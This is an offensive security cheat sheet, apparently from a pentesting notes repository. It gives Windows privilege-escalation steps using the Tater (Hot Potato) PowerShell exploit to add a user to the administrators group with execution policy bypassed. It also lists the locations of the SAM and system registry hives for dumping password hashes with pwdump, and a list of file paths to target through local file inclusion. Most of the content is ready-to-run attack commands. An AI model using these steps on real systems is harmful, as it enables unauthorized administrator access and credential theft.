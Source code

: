 
### Tater

There's a few different implementations of this Hot Potato exploit, I've gotten lucky with the powershell version.
https://github.com/Kevin-Robertson/Tater

So all you do is download Tater.ps1 somewhere on the target then add administrator user or whatever.
```powershell
powershell.exe -nop -ep bypass
Import-Module C:\Users\740i\Desktop\Tater.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators 740i /add"
net localgroup administrators
```



### System Files

If you find an LFI on windows you should check for these two files, the  `system`  registry and the  `SAM`  registry. These two files/registries are all we need to get the machines hashes. 
```cmd
Systemroot can be windows
%SYSTEMROOT%\repair\SAM
windows\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM

System file can be found here
SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\RegBack\system
```
Then you can just run pwdump on these files.
```cmd
pwdump system sam
```

List of file inclusions for Windows
```cmd
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
C:\Program Files\Apache Group\Apache\conf\httpd.conf
C:\Program Files\Apache Group\Apache\conf\logs\access.log
C:\Program Files\Apache Group\Apache\conf\logs\error.log
C:\Program Files\Apache Group\Apache2\conf\httpd.conf
```